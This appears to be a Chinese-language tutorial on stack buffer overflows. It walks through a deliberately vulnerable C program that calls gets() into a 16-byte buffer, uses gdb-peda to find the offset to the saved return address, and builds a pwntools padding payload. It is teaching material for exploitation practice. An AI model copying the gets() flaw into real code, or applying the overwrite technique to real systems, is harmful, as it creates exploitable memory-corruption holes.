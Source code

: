 Overflow
===

### 什麼是Buffer Overflow
  在執行程式時，電腦會先幫忙把需要用到的memory作宣告，例如char s[64]，會先宣告(64+x)bytes(電腦會宣告比原先的再多一點空間)。那在空間都宣告
  完後，會得到rbp、rsp、rip(64bit)這三個重要的暫存器資訊，rbp是執行程式前的base adress,rsp是執行完程式的end adress，rip是下一個要執行函
  式的adress，以圖表表示的話會如下圖  
  ![image](https://user-images.githubusercontent.com/67756786/199140933-9abe7740-7e38-4454-bc46-97b382886bb8.png)  
  那我們使用Overflow基本上就是找到rip的adress並且將他改為我們所需要的adress，如下圖  
  ![image](https://user-images.githubusercontent.com/67756786/199141227-b8f8d5b7-4bf1-46e6-8c17-4380403b4d97.png)  
  現在開始簡單的實作，首先我們的程式碼是  
  ```c
  #include <stdio.h>
  void hacker()
  {
      printf("No, I'm a hacker!\n");
  }
  void myname()
  {
      char name[16];
      printf("What's your name?\n");
      gets(name);
      printf("Hey %s, nice to meet you?\n", name);
  }
  int main()
  {
      myname();
      return 0;
  }
  ```
  正常執行結果如下圖  
  ![image](https://user-images.githubusercontent.com/67756786/199141859-0324e388-84f8-411f-8a5e-5442b82d6be1.png)  
  我使用的是gdb peda(https://github.com/longld/peda) ，首先先建立一個長字串來找出rbp~rip之間的offset，我是使用peda中的pattern create
  `pattern create 100 p`，這指令是建立起100的字母的一個payload，然後檔名是p，那現在將payload輸入進去`r < p`，接著會看到一堆暫存器的數字
  那我們先不管，簡單的找出能壓到rip的offset即可，可以使用`pattern search`來看  
  ![image](https://user-images.githubusercontent.com/67756786/199143167-50163a12-ae02-4217-999b-5f6465ab24d3.png)  
  那目前可以知道我們壓到eip的offset是24bytes，可以來做個簡單的小測試  
  ```python
  from pwn import *

  padding = "A"*24  ##從rbp壓到rsp的offset
  rip = "BBBBCCCC"  ##預期rip會是BBBBCCCC

  payload = padding + rip

  print(payload)
  ```
  那將python執行結果儲存起來，並且執行，可以看到rip變成BBBBCCCC，那代表我們的padding沒問題  
  ```
  gdb-peda$ i f    ##i f == info frame
Stack level 0, frame at 0x7fffffffe378:
 rip = 0x5555555546f7 in myname; saved rip = *0x4343434342424242* 這是hex的BBBBCCCC
 called by frame at 0x7fffffffe388
 Arglist at 0x4141414141414141, args:
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe380
 Saved registers:
  rip at 0x7fffffffe378
  ```
  那我們預期執行hacker這個函式，首先會找到hacker的adress，`print& hacker`  
  ![image](https://user-images.githubusercontent.com/67756786/199145281-113ddc44-2acd-4148-a538-d6b64c22567e.png)
